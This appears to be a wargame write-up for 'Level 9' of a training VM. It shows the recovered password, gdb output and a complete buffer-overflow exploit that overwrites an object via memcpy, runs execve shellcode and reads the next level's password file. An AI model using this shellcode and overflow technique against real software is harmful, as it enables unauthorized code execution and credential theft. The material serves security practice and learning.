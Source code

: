 # Level 9
*password : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a*

## Analyze

```
$ scp -P 4242 level9@192.168.56.108:level9 binary/
```
0x6c = 108

## Buffer overflow : memcpy exploit

- use memcpy to launch our shellcode
  - `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
- get some addresses
```
(gdb) disas main
...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
  ...
(gdb) 
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run test
(gdb) x/x $eax
0x804a00c
```
address `ptr` : 0x804a00c => access to the class\
address `ptr + 4` : 0x804a010 => access to the first element of the class
- compute NOP-sled length : 108 - 25 - 4 = 79

```
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 79 +  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

